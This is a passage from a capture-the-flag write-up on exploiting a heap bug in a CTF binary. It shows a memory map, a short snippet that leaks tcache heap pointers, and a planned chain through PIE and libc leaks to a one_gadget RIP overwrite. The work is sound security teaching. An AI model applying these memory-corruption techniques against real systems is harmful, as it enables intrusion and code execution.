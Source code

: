 ```python
0x00007f2678a4a000 0x00007f2678a4c000 0x0000000000000000 rw-
0x00007f2678a62000 0x00007f2678a63000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007f2678a63000 0x00007f2678a86000 0x0000000000001000 r-x /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007f2678a86000 0x00007f2678a8e000 0x0000000000024000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007f2678a8f000 0x00007f2678a90000 0x000000000002c000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007f2678a90000 0x00007f2678a91000 0x000000000002d000 rw- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007f2678a91000 0x00007f2678a92000 0x0000000000000000 rw-
0x00007fffb3172000 0x00007fffb3193000 0x0000000000000000 rw- [stack]
0x00007fffb31b6000 0x00007fffb31b9000 0x0000000000000000 r-- [vvar]
0x00007fffb31b9000 0x00007fffb31ba000 0x0000000000000000 r-x [vdso]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 --x [vsyscall]
```

All (readable) addresses are randomised, so I'll have to find a way to leak data otherwise first.

## Exploit hypothesis

After a bit more experimentation, I successfully leak a pointer by doing this:

```python
alloc(0, b'a'*0x97)
fav(0)
alloc(0, b'A'*0x27)
print(printName())
```

Resulting in:

```
[+] Opening connection to mc.ax on port 31707: Done
0x55f53971df10000000000000000000000000000000000000000000000000000055f53971dec00000000000000000000055f53971de90000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000010000000000000100000001000100
```

That `0x55` could be a heap pointer or a PIE pointer, so I do a lot of gdb work to figure out that this primitive leaks data from the tcache, and that the pointers leaked above are necessarily heap pointers.

Right now, I have

1. an unreliable exploit that, when successful, can produce an arbitrary read, as well as RIP control.
2. a reliable heap pointer leak

Since `struct Foods` are stored on the heap, the pointer to their vtables (which are stored at a PIE address) can be leaked. That PIE leak can be used to further leak a libc address from the GOT, and _that_ leak can be used to overwrite RIP with a one_gadget.

So, problem solved? Not quite.

My primitive for arbitrary read / RIP control --- the fake `struct Food` primitive --- isn't reliable enough to be executed 3 times in succession on a single connection. I need to try something else.

### Better primitives
